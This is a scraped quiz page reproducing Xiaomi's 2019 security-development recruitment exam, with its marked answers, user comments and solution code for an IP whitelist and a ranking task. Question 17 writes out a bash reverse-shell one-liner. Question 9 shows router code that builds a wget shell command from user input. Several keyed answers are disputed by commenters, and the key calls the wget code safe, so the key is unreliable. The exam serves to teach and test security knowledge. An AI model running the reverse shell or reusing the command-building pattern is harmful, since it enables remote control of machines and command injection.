

# 小米 2019 秋招安全开发笔试题（A）

## 1

关于数字签名说法错误的是

正确答案: D   你的答案: 空 (错误)

```cpp
确定消息确实是由发送方签名并发出来的
```

```cpp
数字签名能确定消息的完整性
```

```cpp
私钥用于签名，公钥用于验证
```

```cpp
都是
```

本题知识点

运维工程师 小米 安全工程师 2019

讨论

[♪_gsky](https://www.nowcoder.com/profile/302609993)

私钥签名，公钥验签，为什么不对

发表于 2021-09-08 09:43:54

* * *

[牛客 935006236 号](https://www.nowcoder.com/profile/935006236)

答案是错的吧？

发表于 2020-09-08 16:00:57

* * *

[栗栗 viki](https://www.nowcoder.com/profile/648993747)

数字签名不是可以保证消息的完整性的吗？A 为什么也不对呢

发表于 2020-05-22 16:59:10

* * *

## 2

CORS 的作用是？

正确答案: A   你的答案: 空 (错误)

```cpp
允许客户端获取服务器的返回数据
```

```cpp
组织客户端发送请求
```

```cpp
防止跨域漏洞
```

```cpp
防止 CSRF 漏洞
```

本题知识点

运维工程师 小米 安全工程师 2019

讨论

[CYX！](https://www.nowcoder.com/profile/192853280)

这个题是啥意思啊，cors 也不是干这个的啊

发表于 2020-04-06 20:46:11

* * *

[牛客 935006236 号](https://www.nowcoder.com/profile/935006236)

CORS 的作用：

为了改善网络应用程序，开发人员要求浏览器供应商允许跨域请求。跨域请求主要用于：

*   调用 XMLHttpRequest 或 fetchAPI 通过跨站点方式访问资源
*   网络字体，例如 Bootstrap（通过 CSS 使用@font-face 跨域调用字体）
*   通过 canvas 标签，绘制图表和视频。

发表于 2020-09-08 16:34:10

* * *

## 3

下面关于 AJAX 说法正确的是？

正确答案: A   你的答案: 空 (错误)

```cpp
AJAX 可以完成数据的跨域
```

```cpp
AJAX 可以给不同域发送数据
```

```cpp
AJAX 可以获取不同域的数据
```

```cpp
AJAX 使用了同步技术
```

本题知识点

运维工程师 小米 安全工程师 2019

## 4

MD5 是？（）

正确答案: B   你的答案: 空 (错误)

```cpp
加密算法
```

```cpp
哈希算法
```

```cpp
编码方式
```

```cpp
可逆算法
```

本题知识点

运维工程师 小米 加密和安全 安全工程师 2019

讨论

[TienChing](https://www.nowcoder.com/profile/549517938)

哈希（Hash）算法，即散列函数，是一种单向密码体制，它是一个从明文到密文的不可逆的映射，只有加密过程，没有解密过程。同时，哈希函数可以将任意长度的输入经过变化以后得到固定长度的输出，这种单向特征和输出数据长度固定的特征使得它可以生成消息或者数据。常用的 hash 算法有：MD4,MD5,SHA 等。

发表于 2019-11-05 17:13:05

* * *

[牛客 629272256 号](https://www.nowcoder.com/profile/629272256)

哈希算法包括 md4md5sha

发表于 2020-08-16 12:28:01

* * *

[牛客 269424767 号](https://www.nowcoder.com/profile/269424767)

MD5 是哈希算法，基础啊

发表于 2022-02-28 01:17:56

* * *

## 5

在 Linux 中，将文件属性设置为所有者只读，其余无任何权限的命令为（假设文件名为 myfile）

正确答案: D   你的答案: 空 (错误)

```cpp
chown 400 myfile
```

```cpp
chmod 750 myfile
```

```cpp
chown u+r myfile
```

```cpp
chmod 400 myfile
```

本题知识点

运维工程师 小米 Linux 安全工程师 2019

讨论

[读者小 Z](https://www.nowcoder.com/profile/624945939)

**【linux 权限设置】**权限内容有***** *** ***  **共三大部分，第一部分代表文件所有者权限，第二部分代表同组用户权限，第三部分代表其他用户的权限。每部分由【 r w x：2^(2 )2^(1 )2⁰ **：**读取 写入 执行 】代表相关权限,用二进制结果数字来进行修改权限；例如：

*   --------- : 000    
*   r-xr-xr-x : 555  // r-x 2²+2⁰=5
*   rwxrwxrwx : 777  // rwx 2²+2¹+2⁰=7

发表于 2019-09-14 17:59:22

* * *

[艾伦·耶格尔](https://www.nowcoder.com/profile/542598319)

chmod：修改文件属性；改变文件属性 chown：改变文件属主；更改文件的拥有者

发表于 2020-08-20 10:58:56

* * *

[openmind.](https://www.nowcoder.com/profile/539390139)



编辑于 2021-06-30 16:33:14

* * *

## 6

以下哪个方法不能实现对系统网络外连行为的监控

正确答案: A   你的答案: 空 (错误)

```cpp
查看/var/log/lastlog 记录
```

```cpp
使用 hook 技术替换 c 库函数 connect
```

```cpp
使用 auditd 监控 connect 系统调用
```

```cpp
都可以实现
```

本题知识点

运维工程师 小米 安全工程师 2019

讨论

[牛客 802910036 号](https://www.nowcoder.com/profile/802910036)

这题出的明显有问题

发表于 2021-08-19 15:38:19

* * *

## 7

在 Linux 文件系统权限中（rwx），只读权限对应的数值为（）

正确答案: A   你的答案: 空 (错误)

```cpp
4
```

```cpp
2
```

```cpp
1
```

```cpp
选项均不正确
```

本题知识点

运维工程师 小米 Linux 安全工程师 2019

讨论

[呦哦桑 c](https://www.nowcoder.com/profile/214961391)

A
"4=r,2=w,1=x”
r 代表读，w 代表写，x 代表执行，
如果可读，权限是二进制的 100，十进制是 4；
如果可写，权限是二进制的 010，十进制是 2；
如果可运行，权限是二进制的 001，十进制是 1

发表于 2019-09-04 00:54:52

* * *

[可乐星](https://www.nowcoder.com/profile/938722766)

选 A，用二进制表示 rwx（r:可读，w：可写，x：可执行）文件权限的时候，rwx 对应 000 的位置比如可读的，不可写，不可执行的时候就应该二进制表示是 100；不可读的，可写，不可执行的时候就应该二进制表示是 010；
不可读的，不可写，可执行的时候就应该二进制表示是 001；
可读的，可写，可执行的时候就应该二进制表示是 111；
题目中是只可读，所以二进制是 100，二进制 100 转为十进制就是 4

发表于 2020-04-20 11:55:11

* * *

[牛客 943596344 号](https://www.nowcoder.com/profile/943596344)

很容易把权限值进行相加，问的是只读权限。前面是干扰的。

发表于 2022-01-05 05:40:29

* * *

## 8

设备升级过程中使用了 "curl https://ota.a.com/update.bin -k -o /tmp/update.bin" 命令获取升级包，下列说法正确的是？

正确答案: C   你的答案: 空 (错误)

```cpp
升级包文件写入到 /tmp 目录，该目录一般有任意用户写入权限，所以升级包会被劫持
```

```cpp
升级包使用了 HTTPS 协议，会极大消耗服务器资源，应该使用 HTTP 协议
```

```cpp
升级包获取忽略了证书校验，会造成中间人攻击
```

```cpp
升级包使用 curl 会有安全隐患，需要使用 wget 来下载升级包
```

本题知识点

运维工程师 小米 Linux 安全工程师 2019

讨论

[大星星和小猩猩](https://www.nowcoder.com/profile/9374535)

curl 命令是一个利用 URL 规则在命令行下工作的文件传输工具。它支持文件的上传和下载，所以是综合传输工具，但按传统，习惯称 curl 为下载工具。作为一款强力工具，curl 支持包括 HTTP、HTTPS、ftp 等众多协议，还支持 POST、cookies、认证、从指定偏移处下载部分文件、用户代理字符串、限速、文件大小、进度条等特征。curl https://ota.a.com/update.bin -k -o /tmp/update.bincurl 后面肯定得跟一个 URL。-k/--insecure：**允许不使用证书到 SSL 站点**-o/--output：**把输出写到该文件中**
/tmp/update.bin：**上一个参数对应文件，写到这个文件中。**
因为允许不使用证书，所以可能造成中间人攻击。

发表于 2020-04-06 00:31:42

* * *

[黄色变白色](https://www.nowcoder.com/profile/8547911)

百度：cURL 是一个利用 URL 语法在命令行下工作的文件传输工具，1997 年首次发行。它支持文件上传和下载，所以是综合传输工具，但按传统，习惯称 cURL 为下载工具。cURL 还包含了用于程序开发的 libcurl。如果是采用证书认证的 http 地址，证书在本地，那么 curl 这样使用： curl -E mycert.pem [`that.secure.server.`](https://that.secure.server.) com

发表于 2019-08-30 07:42:38

* * *

## 9

下面这段代码会造成什么问题？

```cpp
function upgradeRom()
    local XQFunction = require("xiaoqiang.common.XQFunction")
    local XQSysUtil = require("xiaoqiang.util.XQSysUtil")
    local url = LuciHttp.formvalue("url")
    url = url:gsub("'", "")
    if url
        XQFunction.forkExec(string.format("wget '%s'", url))
    else
        XQFunction.forkExec("/usr/sbin/crontab_rom.sh")
    end
end
```

正确答案: D   你的答案: 空 (错误)

```cpp
命令执行漏洞
```

```cpp
代码执行漏洞
```

```cpp
中间人攻击漏洞
```

```cpp
没有任何漏洞
```

本题知识点

运维工程师 小米 安全工程师 2019

讨论

[牛客 802910036 号](https://www.nowcoder.com/profile/802910036)

url = url:gsub("'", "")过滤了单引号 String 类的 format()方法用于创建格式化的字符串以及连接多个字符串对象,此处可以过滤一些危险字符故此处不存在漏洞

发表于 2021-08-19 15:41:24

* * *

## 10

Linux 的可执行文件开头的特征字符串是什么

正确答案: C   你的答案: 空 (错误)

```cpp
PE
```

```cpp
MZ
```

```cpp
ELF
```

```cpp
LNX
```

本题知识点

运维工程师 小米 Linux 安全工程师 2019

讨论

[黄色变白色](https://www.nowcoder.com/profile/8547911)


发表于 2019-08-30 20:17:41

* * *

[你笑起来真好看，像春天花一样](https://www.nowcoder.com/profile/955667561)

这题很简单，主要靠天赋，我说完了，谢谢!

发表于 2019-08-30 19:46:00

* * *

[村雨遥](https://www.nowcoder.com/profile/806383223)

> 可移植可执行文件（Portable Executable，PE）是一种用于可执行、目标文件和动态链接库的文件格式，主要用于 Windows，而使用于 Linux 和多数 Unix 系统中的是**可执行与可链接格式（ELF）**，Mac OS 中则主要使用**Mach-O**；

发表于 2019-12-08 10:04:01

* * *

## 11

以下说法错误的是()

正确答案: A C   你的答案: 空 (错误)

```cpp
RSA 和 DSA 的功能一样，只是不同的算法
```

```cpp
3DES 解决了 DES 密码的密钥长度容易被暴力破解的问题
```

```cpp
Hash 是可逆的，Hash 一般会导致信息熵减小
```

```cpp
ES 加密和解密时使用相同的密钥
```

本题知识点

运维工程师 小米 加密和安全 安全工程师 2019

讨论

[大星星和小猩猩](https://www.nowcoder.com/profile/9374535)

RSA 加密算法是一种，利用极大的整数难以做因数分解的原理实现的一种非对称加密算法；
DSA，全称 Digital Signature Algorithm，是 数字签名算法 的意思，它是一类算法，这一类算法需要用到 非对称加密算法 。但是非对称加密算法，目前来讲可分为两类，一是利用 大整数难分解问题、二是利用 离散对数问题。DSA 是以用途来命名的，而 RSA 只是一种非对称的加密算法，RSA 可以用于数字签名，但也可以用于非数字签名的加密。所以 A 错误。由于于计算机运算能力的增强，DES 密码的密钥长度，变得容易被暴力破解，而 3DES 则是对每个数据块应用三次 DES 加密算法，增加了 DES 的密钥长度，解密时间需要 46 亿年，不怕暴力破解。所以 B 正确。C 不用说了，很明显错误，哈希不可逆。ES 加密算法包括 DES、3DES、AES，这些都是对称加密算法。所以 D 正确。

发表于 2020-03-13 13:03:20

* * *

[Sobering](https://www.nowcoder.com/profile/983435451)

DSA digital signature algorithm 数字签名算法

发表于 2019-11-01 16:43:02

* * *

[宠你＆我的天性](https://www.nowcoder.com/profile/5023692)

没听过 ES 这种说法，有点牵强

发表于 2021-09-11 11:08:12

* * *

## 12

cookie 的基础属性有哪些?

正确答案: A B C D E   你的答案: 空 (错误)

```cpp
Domain
```

```cpp
path
```

```cpp
httponly
```

```cpp
secure
```

```cpp
expires
```

本题知识点

运维工程师 小米 安全工程师 2019

## 13

下面有那些技术是在 https 应用到的？

正确答案: A B C D   你的答案: 空 (错误)

```cpp
对称加密
```

```cpp
非对称加密
```

```cpp
密钥交换
```

```cpp
哈希算法
```

本题知识点

运维工程师 小米 加密和安全 安全工程师 2019

讨论

[小大饼](https://www.nowcoder.com/profile/9476771)

明明也有哈希算法啊，答案有问题呢。证书的 signature 和 fingerprint 都有用到啊

发表于 2019-09-06 21:55:17

* * *

[大星星和小猩猩](https://www.nowcoder.com/profile/9374535)

理论上应该 ABCD 都选，因为哈希算法也是必需的，所以答案是错误的

发表于 2020-03-13 13:14:11

* * *

[骨标平均不进五分不改名](https://www.nowcoder.com/profile/512875194)

对生成的随机数需要使用哈希算法。

发表于 2019-09-12 10:51:44

* * *

## 14

使用下面那种方式可以产生跨域攻击？

正确答案: A C D   你的答案: 空 (错误)

```cpp
CORS
```

```cpp
iframe
```

```cpp
window.name
```

```cpp
window.postMessage
```

本题知识点

运维工程师 小米 安全工程师 2019

## 15

以下哪些方式被认为是 DDOS 攻击（）

正确答案: A B C D   你的答案: 空 (错误)

```cpp
ICMP Flood
```

```cpp
SYNFlood
```

```cpp
DNSQuery Flood
```

```cpp
UDPFlood
```

本题知识点

运维工程师 小米 安全工程师 2019

## 16

关于 SYNFlood 攻击，以下说法正确的是（）

正确答案: A C   你的答案: 空 (错误)

```cpp
此种攻击方式不需要建立完整的 TCP 三次握手
```

```cpp
此种攻击方式是在结束 TCP 链接过程中，由客户端发起的
```

```cpp
此种攻击方式是客户端主动发起 SYN 半连接引起的
```

```cpp
此种攻击方式是服务端主动发起 SYN 半连接引起的
```

本题知识点

运维工程师 小米 安全工程师 2019

讨论

[牛客 802910036 号](https://www.nowcoder.com/profile/802910036)

```cpp
此种攻击方式是客户端主动发起 SYN 半连接引起的,还没到 TCP 链接阶段。
```

发表于 2021-08-19 15:48:37

* * *

## 17

关于这条命令，说法正确的是
bash -i >& /dev/tcp/192.168.1.2/8080 0>&1

正确答案: B C   你的答案: 空 (错误)

```cpp
这不是一个反弹 shell
```

```cpp
通过在 192.168.1.2 上监听 8080，可以远程操作运行了此命令的机器
```

```cpp
这是一个反弹 shell
```

```cpp
此命令存在语法错误
```

本题知识点

运维工程师 小米 安全工程师 2019

## 18

下面哪些命令和工具对 firmware 分析有帮助？

正确答案: A B C   你的答案: 空 (错误)

```cpp
binwalk
```

```cpp
file
```

```cpp
firmware-mod-kit
```

```cpp
netstat
```

本题知识点

运维工程师 小米 Linux 安全工程师 2019

讨论

[黄色变白色](https://www.nowcoder.com/profile/8547911)

 Binwalk 是用于搜索给定二进制镜像文件以获取嵌入的文件和代码的工具。Linux file 命令用于辨识文件类型。firmware-mod-kit 工具的功能和 binwalk 工具的类似 Netstat 命令用于显示各种网络相关信息，如网络连接，路由表，接口状态 (Interface Statistics)，masquerade 连接，多播成员 (Multicast Memberships) 等等。

发表于 2019-08-29 20:57:56

* * *

[酒泽思](https://www.nowcoder.com/profile/588155683)

firmware 分析：固件分析；固件（firmware）是一种写入硬件设备的软件，作用是对应用和各项系统功能实时控制。1、固件的分析可以采用人工或工具方式进行，如：文件分析、熵分析、脚本分析； 熵分析用以分析二进制固件文件的加密情况，常用工具是 binwalk -E； 自动化遍历固件文件系统中的所有敏感文件内容的常用脚本工具是 firmwalker； 2、提取固件二进制镜像中的根文件系统，是对固件进行分析的前提条件：binwalk 提取固件文件系统；firmware-mod-kit 工具的功能和 binwalk 工具的类似 3、file 命令用来探测给定文件的类型，file 命令对文件的检查分为：文件系统、魔法幻数检查和语言检查 3 个过程。

发表于 2021-05-20 10:30:19

* * *

[大星星和小猩猩](https://www.nowcoder.com/profile/9374535)

*   **Binwalk 是用于搜索给定二进制镜像文件以获取嵌入的文件和代码的工具**，具体来说，它被设计用于识别嵌入固件镜像内的文件和代码。
*   **file 命令用来探测给定文件的类型**，file 命令对文件的检查分为文件系统、魔法幻数检查和语言检查 3 个过程。
*   **firmware-mod-kit 工具的功能和 binwalk 工具的类似**，其实 firmware-mod-kit 工具在功能上有调用 binwalk 工具提供的功能以及其他的固件解包工具的整合。

发表于 2020-04-06 17:06:09

* * *

## 19

哪些是常用的逆向分析工具？()

正确答案: B C D   你的答案: 空 (错误)

```cpp
sqlmap
```

```cpp
gdb
```

```cpp
IDA
```

```cpp
ollydbg
```

本题知识点

运维工程师 小米 软件工程 安全工程师 2019

讨论

[漫漫云天自翱翔](https://www.nowcoder.com/profile/809820957)

sqlmap 是注入工具吧

发表于 2020-04-01 10:14:07

* * *

[yangshuang](https://www.nowcoder.com/profile/524884075)

C

发表于 2019-12-24 11:56:51

* * *

## 20

以下哪些属于缓冲区溢出保护机制？()

正确答案: A B E   你的答案: 空 (错误)

```cpp
PIE
```

```cpp
NX
```

```cpp
WAF
```

```cpp
IPTABLES
```

```cpp
STACK CANARY
```

本题知识点

运维工程师 小米 安全工程师 2019

## 21

我们的小齐同学是一名很辛苦的实习 DBA，他每天的工作就是为一个帐号添加授权，今天给这 200 个 ipv4 添加授权，明天又要把这 200 个授权删掉，有一天小齐同学在删除授权的时候不小心把所有的授权都删了，被领导很批了一顿。痛定思痛，小齐同学开始反思他每天的工作，发现无非就是我每天要让那些 ip 访问数据库而已，他决定写一个效率很高的 ip 白名单，请帮小齐同学说一下实现思路，并用结构化编程语言（c/c++/python/golang/java 等）写一个 ip 白名单吧，他需要这个白名单有添加 ip 的功能，删除 ip 的功能，查找这个 ip 在不在白名单中，以及打印白名单中的内容，以上四个功能中查找 ip 是否在白名单中效率一定要高。并帮小齐分析一下各个功能的时间复杂度，写的好小齐同学会请你吃饭哦。

本题知识点

运维工程师 小米 数组 查找 *字符串 *安全工程师 2019** **讨论

[无心 2019](https://www.nowcoder.com/profile/991674511)

```cpp
您的代码已保存 答案错误:您提交的程序没有通过所有的测试用例 case 通过率为 46.67% 

```
#include <bits/stdc++.h>
using namespace std;
int main()
{
    vector<string>res;
    vector<int>f;
    string s;
    while(cin>>s)
    {
        if(s[0]=='i')
        {
            res.push_back(s.substr(2,s.size()-2));
            f.push_back(0);
            cout<<"ok"<<endl;
        }
        else if(s[0]=='s')
        {
            int flag=0;
            for(long long i=0;i<res.size();i++)
            {
                if(res[i]==s.substr(2,s.size()-2)&&f[i]==0)
                {
                    cout<<"true"<<endl;
                    flag=1;
                    break;
                }
            }
            if(!flag)
                cout<<"false"<<endl;
        }
        else if(s[0]=='d')
        {
            for(long long i=0;i<res.size();i++)
            {
                if(res[i]==s.substr(2,s.size()-2)&&f[i]==0)
                {
                    f[i]=1;
                    break;
                }
            }
            cout<<"ok"<<endl;
        }
        else
            break;
    }
    return 0;
}
```cpp

```
不知道为啥会这样,劳烦大神们批评指导一波，感激不尽！！
在大佬的指导下，通过了
#include <bits/stdc++.h>
using namespace std;
int main()
{
    vector<string>res;
    vector<int>f;
    string s;
    map<string,int>mp;
    while(cin>>s)
    {
        if(s[0]=='i')
        {
            string str=s.substr(2,s.size()-2);
            res.push_back(str);
            mp[str]=1;
            cout<<"ok"<<endl;
        }
        else if(s[0]=='s')
        {
            string str=s.substr(2,s.size()-2);
            if(mp[str]==1)
                cout<<"true"<<endl;
            else
                cout<<"false"<<endl;        
        }
        else if(s[0]=='d')
        {
            string str=s.substr(2,s.size()-2);
            if(mp[str]==1)
                mp[str]=0;
            cout<<"ok"<<endl;
        }
        else
            break;
    }
    return 0;
}

```cpp

```

编辑于 2019-07-05 08:47:58

* * *

[谁的电脑](https://www.nowcoder.com/profile/743368)

```cpp
import java.util.HashSet;
import java.util.Scanner;

public class Main {
    public static void main(String[] args) {
        Scanner scanner = new Scanner(System.in);
        HashSet<String> set = new HashSet<>();
        while (!scanner.hasNext("end")) {
            String command = scanner.next();
            char c = command.charAt(0);
            String ip = command.substring(2);
            switch (c) {
                case 'i':
                    set.add(ip);
                    System.out.println("ok");
                    break;
                case 'd':
                    set.remove(ip);
                    System.out.println("ok");
                    break;
                case 's':
                    System.out.println(set.contains(ip));
                    break;
            }
        }
    }
}
```

发表于 2019-07-15 10:11:30

* * *

[零葬](https://www.nowcoder.com/profile/75718849)

用 set 模拟数据库的操作即可

```cpp
line = input().strip()
db = set()
while line != "end":
    op, ip = line.split(":")
    if op == "i":
        db.add(ip)
        print("ok")
    elif op == "d":
        db.discard(ip)
        print("ok")
    else:
        if ip in db:
            print("true")
        else:
            print("false")
    line = input().strip()
```

发表于 2021-02-27 15:58:19

* * *

## 22

有 N 个比赛队（1<=N<=500），编号依次为 1，2，3，。。。。，N 进行比赛，比赛结束后，裁判委员会要将所有参赛队伍从前往后依次排名，但现在裁判委员会不能直接获得每个队的比赛成绩，只知道每场比赛的结果，即 P1 赢 P2，用 P1，P2 表示，排名时 P1 在 P2 之前。现在请你编程序确定排名。

本题知识点

运维工程师 小米 排序 *图 安全工程师 2019* *讨论

[nbgao](https://www.nowcoder.com/profile/211289)

```cpp
#include <bits/stdc++.h>
using namespace std;
int main(){
    int n,m;
    while(cin>>n>>m){
        vector<int> Edge[n+1];
        int inDegree[n+1];
        memset(inDegree,0,sizeof(inDegree));
        for(int i=0;i<m;i++){
            int a,b;
            cin>>a>>b;
            Edge[a].push_back(b);
            inDegree[b]++;
        }
        priority_queue<int, vector<int>, greater<int>> Q;
        for(int i=1;i<=n;i++)
            if(inDegree[i]==0)
                Q.push(i);

        int cnt = 1;
        while(!Q.empty()){
            int u = Q.top();
            Q.pop();
            if(cnt==n)
                cout<<u<<endl;
            else
                cout<<u<<" ";
            cnt++;
            for(int i=0;i<Edge[u].size();i++){
                int v = Edge[u][i];
                inDegree[v]--;
                if(inDegree[v]==0)
                    Q.push(v);
            }
        }
    }
    return 0;
}

```

发表于 2019-07-17 01:05:06

* * *

[lentolove](https://www.nowcoder.com/profile/572586026)

```cpp
import java.io.*;
import java.util.*;

public class Main {

    public static void main(String[] args) throws IOException {
        BufferedReader bf = new BufferedReader(new InputStreamReader(System.in));
        String str;
        while ((str = bf.readLine()) != null) {
            String[] line1 = str.split(" ");
            int n = Integer.parseInt(line1[0]);//队伍的个数
            int m = Integer.parseInt(line1[1]);//总共有 m 场比赛
            //记录 n 个队伍比赛输掉的次数
            int[] num1 = new int[n + 1];
            PriorityQueue<Integer> queue = new PriorityQueue<>();
            //记录第 i 个队伍赢得的队伍
            HashMap<Integer, ArrayList<Integer>> map = new HashMap<>(m);
            int a, b;
            for (int i = 1; i <= m; i++) {
                line1 = bf.readLine().split(" ");
                a = Integer.parseInt(line1[0]);//赢比赛的队伍
                b = Integer.parseInt(line1[1]);//输比赛的队伍
                if (!map.containsKey(a)) {
                    map.put(a, new ArrayList<>());
                }
                map.get(a).add(b);
                //eg：b 队伍输的次数加一
                num1[b]++;
            }
            for (int i = 1; i <= n; i++) {//将那些没有输过比赛的队伍加到优先队列中,题目要求相同排名的编号小的放在前面
                if (num1[i] == 0) queue.add(i);
            }
            //保存输出结果
            StringBuilder sb = new StringBuilder();
            while (!queue.isEmpty()) {
                int top = queue.poll();
                sb.append(top);
                sb.append(" ");
                for (int i = 0; map.containsKey(top) && i < map.get(top).size(); i++) {
                    int x = map.get(top).get(i);
                    num1[x]--;
                    if (num1[x] == 0) queue.add(x);
                }
            }
            sb.substring(0,sb.length()-1);
            System.out.println(sb.toString());
        }
    }
}

```

发表于 2019-07-30 10:43:23

* * *

[ElonB](https://www.nowcoder.com/profile/623894)

```cpp
""""
每次找到在第一列且不在第二列，或没有比赛结果的队伍，
输出最小编号，删除包含此最小编号队伍的比赛结果，重复上一步骤。
优化时间复杂度，优化比赛结果的存储格式，设置各队伍的入度(输的数量),可以用优先级队列进一步优化
"""
import sys

if __name__ == "__main__":
    # sys.stdin = open("input.txt", "r")
    try:
        while True:
            n, m = map(int, input().strip().split())
            edge = [[] for _ in range(n + 1)]
            indegree = [0] * (n + 1)
            for _ in range(m):
                a, b = map(int, input().strip().split())
                edge[a].append(b)
                indegree[b] += 1
            pre = []
            ans = []
            for i in range(1, n + 1):
                if indegree[i] == 0:
                    pre.append(i)
            while pre:
                ans.append(min(pre))
                pre.remove(ans[-1])
                for k in edge[ans[-1]]:
                    indegree[k] -= 1
                    if indegree[k] == 0:
                        pre.append(k)
            print(' '.join(map(str, ans)))
    except:
        pass
```

编辑于 2019-07-14 09:52:25

* * ****